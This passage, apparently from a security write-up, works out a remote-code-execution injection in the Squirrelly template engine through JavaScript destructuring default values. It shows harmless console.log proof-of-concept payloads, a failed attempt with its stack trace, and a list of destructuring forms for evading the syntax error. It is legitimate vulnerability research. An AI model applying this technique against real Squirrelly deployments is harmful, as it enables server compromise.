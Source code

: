 ```javascript
function f({ a = 1 }) {
    console.log(a)
}
```

This is the vector for our RCE. When setting the default value, the expression has to be evaluated, which we can use for
RCE. Something like this should work:

```javascript
function f({ a = console.log("x") }) {
    console.log(a)
}
```

However, there's a small problem - our payload is also being injected in the `with` expression, and this syntax is
invalid there since it's not a valid object initializer.

```javascript
with ({ a = console.log("x") } || {}) {
    // ...
}
```

Indeed, when we try this payload, it crashes as well:

```
Squirrelly Error: Bad template syntax

Invalid shorthand property initializer
======================================
var tR='';with({a=console.log("X")}||{}){tR+='asdf\n';if(cb){cb(null,tR)} return tR}
    at SqrlErr (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:138:15)
    at compile (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:881:19)
    at handleCache (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:1002:12)
    at tryHandleCache (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:1035:13)
    at View.renderFile [as engine] (/home/samuzora/test/node_modules/squirrelly/dist/squirrelly.cjs.js:1064:12)
    at View.render (/home/samuzora/test/node_modules/express/lib/view.js:135:8)
    at tryRender (/home/samuzora/test/node_modules/express/lib/application.js:657:10)
    at Function.render (/home/samuzora/test/node_modules/express/lib/application.js:609:3)
    at ServerResponse.render (/home/samuzora/test/node_modules/express/lib/response.js:1048:7)
    at /home/samuzora/test/index.js:9:7
```

Luckily, according to the
[docs](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Destructuring_assignment), the destructuring syntax is quite flexible and allows for a lot more kinds of syntax:

```javascript
const [a, b] = array;
const [a, , b] = array;
const [a = aDefault, b] = array;
const [a, b, ...rest] = array;
const [a, , b, ...rest] = array;
const [a, b, ...{ pop, push }] = array;
const [a, b, ...[c, d]] = array;

const { a, b } = obj;
const { a: a1, b: b1 } = obj;
const { a: a1 = aDefault, b = bDefault } = obj;
const { a, b, ...rest } = obj;
const { a: a1, b: b1, ...rest } = obj;
const { [key]: a } = obj;

let a, b, a1, b1, c, d, rest, pop, push;
[a, b] = array;
```